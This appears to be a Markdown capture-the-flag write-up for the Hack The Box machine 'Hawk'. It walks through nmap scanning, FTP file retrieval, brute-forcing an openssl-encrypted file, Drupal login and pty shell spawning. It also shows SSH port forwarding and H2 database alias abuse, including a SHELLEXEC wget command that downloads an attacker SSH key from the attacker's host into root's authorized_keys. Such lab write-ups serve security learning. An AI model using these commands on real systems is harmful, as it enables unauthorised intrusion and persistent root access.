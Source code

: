 # Hawk Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA hawk -T4 10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230886175-1c075cce-aa30-4eba-a72e-a49466a2dc7f.png)

``nmap -p- -sV -oA fullhawk -T4 10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230886275-c19e7b0f-4fff-4941-b29f-9376edc03cdd.png)

# ${{\color{purple}Initial Foothold}}\ $

``ftp 10.10.10.102 21``

``dir -a``

``get <nom du fichier>``

![image](https://user-images.githubusercontent.com/123066149/230886704-2c55705f-ec28-4551-9d49-459be1057e3c.png)

``mv .drupal.txt.enc encrypted``

``file encrypted``

![image](https://user-images.githubusercontent.com/123066149/230886940-6b64d2ea-3e79-4f79-a011-c0c6159c9ea7.png)

``wc -c encrypted``

![image](https://user-images.githubusercontent.com/123066149/230887039-d7b5a775-37de-4b91-a12b-fffb0862640f.png)

### It's all the cipher available in openssl :

``openssl --help``

![image](https://user-images.githubusercontent.com/123066149/230887119-6e31e1fd-a610-4ab3-bb7f-8278c7ff5163.png)

``bruteforce-salted-openssl -t 10 -f /usr/share/wordlists/rockyou.txt -c aes-256-cbc -d sha256 encrypted``

![image](https://user-images.githubusercontent.com/123066149/230891237-c3fc28d2-a9f7-4077-8401-e7cb26b69c2c.png)

``openssl enc -aes-256-cbc -d -in encrypted -out decrypted -k friends``

![image](https://user-images.githubusercontent.com/123066149/230891407-a9d9ffcf-6119-49c1-baef-1956536bc8fb.png)

``cat decrypted``

![image](https://user-images.githubusercontent.com/123066149/230891465-0b517b98-6acf-47b9-b8f2-85f84c60b7aa.png)

# ${{\color{purple}Exploitation}}\ $

### Godd ressource for drupal hacking :

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal

### I used thi creds on the drupal portal :

![image](https://user-images.githubusercontent.com/123066149/230891583-beac5b4c-3203-42ef-b232-b2deed1d890e.png)

### Active php modules :

![image](https://user-images.githubusercontent.com/123066149/230891707-bfb6790c-5163-4e54-88ca-40e4f42166fb.png)


![image](https://user-images.githubusercontent.com/123066149/230891898-c92282fb-f6e9-4fbb-8df5-535f6658c01e.png)

![image](https://user-images.githubusercontent.com/123066149/230892120-a8b817e8-4f08-4b91-92d2-cf0b123de873.png)

![image](https://user-images.githubusercontent.com/123066149/230892506-3658a936-878f-4cde-b4cd-97714c81a932.png)

![image](https://user-images.githubusercontent.com/123066149/230892536-2bcfd7cc-7e3d-442f-9a9c-c459acf7616c.png)

# ${{\color{purple}Privilege Escalation}}\ $

### I found a usable database password for a user in ssh

![image](https://user-images.githubusercontent.com/123066149/230892915-e78bcace-86fb-447e-9cdd-5f3af511fedf.png)

### We have a python shell :

![image](https://user-images.githubusercontent.com/123066149/230893148-5b5b3e46-0256-4b7d-a0ce-4a1e31bf8530.png)

### Spawn a shell :

``import pty``

``pty.spawn("/bin/bash")``

![image](https://user-images.githubusercontent.com/123066149/230893408-b80e3599-7ae9-4925-a663-58e4d1b85f1c.png)

### Was we can see this program have the root privilège :

![image](https://user-images.githubusercontent.com/123066149/230893535-91aeaf9e-6efa-4de8-90b8-99b9a961666b.png)
![image](https://user-images.githubusercontent.com/123066149/230893574-7197f782-c096-4c5b-b784-92a73bf6072c.png)

``netstat -antp``

![image](https://user-images.githubusercontent.com/123066149/230893739-d42f3312-9667-4a1c-be8d-3da498599adf.png)

### We can redirect this port in the local machine with ssh:

``ssh -L 127.0.0.1:4444:127.0.0.1:8082 daniel@10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230893850-f5a6fe34-b5b6-4fe4-b3c3-a0a85038c7d1.png)

![image](https://user-images.githubusercontent.com/123066149/230893909-54756edb-3d7c-4892-80a3-805d545e3373.png)

### I connect to the database with the creds I found before :

![image](https://user-images.githubusercontent.com/123066149/230894137-51516348-5fe4-4308-b157-e95fb7c51444.png)

``searchsploit H2 database``

![image](https://user-images.githubusercontent.com/123066149/230894231-840b1713-2e28-4e28-b836-14b1c0b1f14a.png)

### Finding a blog post in the exploit :

![image](https://user-images.githubusercontent.com/123066149/230894288-487080f4-7e89-48f1-9208-0e11f68e6b62.png)

https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

![image](https://user-images.githubusercontent.com/123066149/230894349-a7c32be7-c966-42e0-b372-74f15ebac9e3.png)

![image](https://user-images.githubusercontent.com/123066149/230894599-6b06c4a7-398e-494e-8816-7d926a83c6ea.png)

### I actually had a surprisingly difficult time going from this code execution to a shell. I tried the standard reverse shells, but none seemed to work

``ssh-keygen``

![image](https://user-images.githubusercontent.com/123066149/230894932-5e96a022-d70c-4783-ad4b-60c96d940828.png)

``cat id_rsa.pub > authorized_keys``

``cat authorized_keys ``

![image](https://user-images.githubusercontent.com/123066149/230895081-f34a9267-78c6-419c-ba05-a5e2697d7a60.png)

``CALL SHELLEXEC('wget -O /root/.ssh/authorized_keys http://10.10.14.10:80/id_rsa.pub')``

![image](https://user-images.githubusercontent.com/123066149/230895262-2f8acb6c-de52-4770-a41c-d6b1d32034bb.png)

``python2.7 -m SimpleHTTPServer 80``

![image](https://user-images.githubusercontent.com/123066149/230895149-5327d4c4-9889-4b5f-a56e-56d9057956fd.png)

``chmod 600 id_rsa``

``ssh -i ssh/id_rsa root@10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230895439-2bdf8fc0-c890-494c-b292-6788a882808e.png)

### Enter passphrase created during sshkeygen :

![image](https://user-images.githubusercontent.com/123066149/230895586-09fb2e0b-7f46-4eb0-9888-9e45f6bd8f08.png)


# ${{\color{purple}Points of Improvement}}\ $
